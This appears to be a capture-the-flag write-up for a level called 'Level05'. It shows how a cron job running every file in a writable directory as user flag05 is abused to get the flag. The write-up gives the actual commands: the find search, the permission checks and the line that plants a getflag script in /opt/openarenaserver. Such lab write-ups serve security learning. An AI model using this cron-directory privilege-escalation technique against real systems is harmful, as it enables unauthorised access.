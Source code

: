 # Level05

## Context
* No file in our home

## Resolution
 * we launch the following command: ```find / -name level05 2>/dev/null``` that ouputs :
 ```/var/mail/level05 /rofs/var/mail/level05```
 * Those two files output the same content: ```*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05```. Looks like a cron task..
 * Script ```/usr/sbin/openarenaserver``` permissions are: ```-rwxr-x---+ 1 flag05 flag05```. Its content is: 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
 * ```/opt/openarenaserver/``` folder is empty and has the following permissions : ```drwxrwxr-x+ 2 root root``` ```getfacl``` command shows
```
user:level05:rwx
user:flag05:rwx
```
 * As we have write permissions in this folder, we decide to add ```getflag_script``` in this folder by lauching the following command : ```echo "getflag > /var/crash/output.txt" > /opt/openarenaserver/getflag_script && chmod +x /opt/openarenaserver/getflag_script```
 * We then laucnh ```crontab -e``` and copy ```/var/mail/level05``` into our crontab
 * After less than 2 minutes, we get the flag in the ```/var/crash/output.txt``` file

